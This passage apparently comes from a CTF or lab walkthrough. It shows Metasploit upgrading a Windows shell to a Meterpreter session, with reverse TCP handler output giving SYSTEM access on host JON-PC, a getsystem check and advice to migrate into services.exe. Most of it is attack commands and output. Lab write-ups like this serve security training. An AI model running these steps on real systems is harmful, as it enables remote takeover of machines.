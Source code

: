 4. once done, background the session then run post/multi/manage/shell_to_meterpreter 

msf6 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.2.77.171:4433 
[*] Post module execution completed
msf6 post(multi/manage/shell_to_meterpreter) > 
[*] Sending stage (200774 bytes) to 10.10.120.194
[*] Meterpreter session 2 opened (10.2.77.171:4433 -> 10.10.120.194:49184) at 2022-08-09 23:21:14 -0400
[*] Stopping exploit/multi/handler

msf6 post(multi/manage/shell_to_meterpreter) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         shell x64/windows                                      10.2.77.171:4444 -> 10.10.120.194:49170 (10.10.1
                                                                   20.194)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.2.77.171:4433 -> 10.10.120.194:49184 (10.10.1
                                                                   20.194)

msf6 post(multi/manage/shell_to_meterpreter) > 

msf6 post(multi/manage/shell_to_meterpreter) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > 
meterpreter > getsystem
[-] Already running as SYSTEM
meterpreter > 

5. check ps for NT AUTHORITY\ SYSTEM and migrate process (use services.exe)

msf6 post(multi/manage/shell_to_meterpreter) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         shell x64/windows                                      10.2.77.171:4444 -> 10.10.120.194:49170 (10.10.1
                                                                   20.194)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.2.77.171:4433 -> 10.10.120.194:49184 (10.10.1
                                                                   20.194)

msf6 post(multi/manage/shell_to_meterpreter) > sessions -i 2
[*] Starting interaction with 2...
